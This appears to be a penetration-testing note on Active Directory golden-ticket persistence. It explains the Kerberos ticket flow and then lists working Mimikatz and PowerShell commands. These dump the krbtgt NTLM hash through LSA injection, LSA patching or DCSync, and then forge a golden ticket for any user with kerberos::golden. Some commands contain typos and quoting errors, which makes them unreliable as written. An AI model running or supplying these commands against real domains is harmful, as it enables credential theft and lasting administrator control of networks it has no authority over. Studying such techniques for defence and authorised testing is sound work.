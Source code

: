 # Domain Persistance - Golden Ticket

Kerbros is basis of authentication in AD , it is being attacked since it was implemented with new attacks being discovered every year

## Steps in Kerberos

- User logs on with username & password.

- Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC (Key Distribution Centre also known as Domain Controller) as an authenticator in the authentication ticket (TGT) request  Authenitcation Service Request (AS-REQ).  The Domain Controller (KDC) checks user information (logon restrictions, group membership, etc) & creates Ticket-Granting Ticket (TGT).

- **The TGT is encrypted, signed, & delivered to the user (AS-REP). Only the Kerberos service (KRBTGT) in the domain can open and read TGT data.**

- The User presents the TGT to the DC when requesting a Ticket Granting Service (TGS) ticket (TGS-REQ). The DC opens the TGT & validates PAC checksum . If the DC can open the ticket & the checksum check out, `TGT = valid`. The data in the TGT is effectively copied to create the TGS ticket.

- The TGS is encrypted using the target service accounts’s NTLM password hash and sent to the user (TGS-REP)

- The user connects to the server hosting the service on the appropriate port & presents the TGS Application Request (AP-REQ). The service opens the TGS ticket using its NTLM password hash.

- Optional mutual authentication is done by service that the user provides TGS ticket to

## Golden Ticket

The TGT (Ticket Granting Ticket) that we obtain in the kerberos in the step where we request a TGS (Ticket Granting Service ) for a service that we want to connect ,it's a signed and encrypted by hash of `krbtgt` account 

Using golden tickets we can forge or create our own tickets to access other services (create TGT for services to request TGS for any service on any computer in domain)

To create a golden ticket we need 2 things , `krbtgt` account's password never changes and the account name is same in every domain and it's responsible for reading and signing TGT

- KRBTGT account password hash
- Domain name and SID 

## Using AD module

```
Import-Module activedirectory
Get-ADUser krbtgt
```

## Using mimikatz.exe

```
privilege::debug
lsadump:lsa /inject /name:krbtgt
```

After getting the `NTLM hash which used RC4 encryption`  and SID of krbtgt we can create a golden ticket for any user , can be an existing or a fake one , all is required is the 
- `/user` name (Arz) ,
- `/id` 500 which is deafult ID for Administrator user or any other id
- `/groups` we can leave it blank as the default group would be `Domain Admins`
- `/sid` insert SID of krbtgt user that we extracted earlier
- `/ptt` load the ticket in current powershell session 
- `/ticket` save the ticket on disk
 -`/startoffset:0` start the time of ticket , 0 means that ticket is created right now , -1 which would mean that it has been created in the past
 - `/endin:600` ticket liftime by default is 10 years , 600 means 600 minutes which is 10 hours
- `/renewmax:10080` ticket renewal , by defualt is 10 years , 10080 minutes is 7 days

The last 3 arguments are optional

```
kerberos:golden /domain: domain_name /sid:sid_of_krbtgt /rc4:krbtgt_hash /user:arz /id: 500 /ptt | /ticket

```

## Mimikatz Powershell

### Execute Mimikatz on DC as Domain Administrator to get krbtgt hash

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername computername
```

This will list all user's NTLM hashes

### When we have found krbtgt hash we can forge a TGT

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domainname /sid:sid_of_krbtgt /krbtgt:ntlm_hash_of_krbtgt" id:500 /groups /ptt"'
```

### DCSync feature for getting krbtgt hash 
If a user has DCSync rights (permission to replicated DC changes ) let's say `arz` can replicate DC changes

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:arz"'
```

Or 
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'
```

